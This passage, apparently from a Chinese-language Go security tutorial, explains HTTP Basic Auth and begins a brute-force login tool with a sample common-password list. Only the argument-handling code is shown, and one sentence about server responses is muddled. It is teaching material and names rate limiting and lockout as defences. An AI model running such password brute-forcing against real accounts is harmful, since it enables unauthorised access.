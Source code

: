 HTTP 基本认证是指您在 HTTP 请求中提供用户名和密码。您可以在现代浏览器中将其作为 URL 的一部分传递。考虑以下示例：

```go
http://username:password@www.example.com
```

在编程时添加基本认证时，凭据以名为`Authorization`的 HTTP 标头提供，其中包含以 base64 编码并以`Basic`为前缀，用空格分隔的`username:password`值。考虑以下示例：

```go
Authorization: Basic dXNlcm5hbWU6cGFzc3dvcmQ=
```

Web 服务器在认证失败时通常会响应`401 Access Denied`代码，并且应该以`200 OK`等`2xx`成功代码进行响应。

此示例将获取一个 URL 和一个`username`值，并尝试使用生成的密码进行登录。

为了减少此类攻击的效果，可以在一定数量的登录尝试失败后实施速率限制功能或帐户锁定功能。

如果您需要从头开始构建自己的密码列表，请尝试从维基百科中记录的最常见密码开始[`en.wikipedia.org/wiki/List_of_the_most_common_passwords`](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)。以下是一个可以保存为`passwords.txt`的简短示例：

```go
password
123456
qwerty
abc123
iloveyou
admin
passw0rd
```

将前面代码块中的列表保存为一个文本文件，每行一个密码。名称不重要，因为你会将密码列表文件名作为命令行参数提供：

```go
package main 

import ( 
   "bufio" 
   "fmt" 
   "log" 
   "net/http" 
   "os" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force HTTP Basic Auth 

Passwords should be separated by newlines. 
URL should include protocol prefix. 

Usage: 
  ` + os.Args[0] + ` <username> <pwlistfile> <url> 

Example: 
  ` + os.Args[0] + ` admin passwords.txt https://www.test.com 
`) 
} 

func checkArgs() (string, string, string) { 
   if len(os.Args) != 4 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
   } 

   // Username, Password list filename, URL 
   return os.Args[1], os.Args[2], os.Args[3] 
} 
```